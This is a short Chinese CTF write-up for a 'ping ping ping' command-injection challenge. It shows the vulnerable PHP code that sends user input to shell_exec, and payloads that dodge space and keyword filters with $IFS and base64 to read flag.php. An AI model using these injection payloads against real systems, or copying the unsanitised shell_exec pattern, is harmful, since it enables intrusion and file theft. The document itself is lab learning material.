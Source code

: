 # ????

## ping ping ping

过滤$,' ',

未过滤符号:`!,#,$,%,(,.,+,-,:,;,=`

过滤空格用$IFS来代替

过滤flag

用base64来绕过

`aasdf||echo$IFS$1ZmxhZy5waHA=|base64$IFS-d|xargs$IFS$IFS``cat`

```php
	<?php
	if(isset($_GET['ip'])){
		$ip = $_GET['ip'];
		if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
			echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
			die("fxck your symbol!");
		}
		else if(preg_match("/ /", $ip)){
			die("fxck your space!");
		}
		else if(preg_match("/bash/", $ip)){
			die("fxck your bash!");
		}
		else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
			die("fxck your flag!");
		}
		$a = shell_exec("ping -c 4 ".$ip);
		echo "<pre>";
		print_r($a);
	}

	?>
```

`asdf||echo$IFS$1ZmxhZy5waHA=|base64$IFS-d|xargs$IFS$IFS$1cat`



## upload



**没做出来忽略他**



上传类型也太露骨了把:检测后缀还是上传类型?
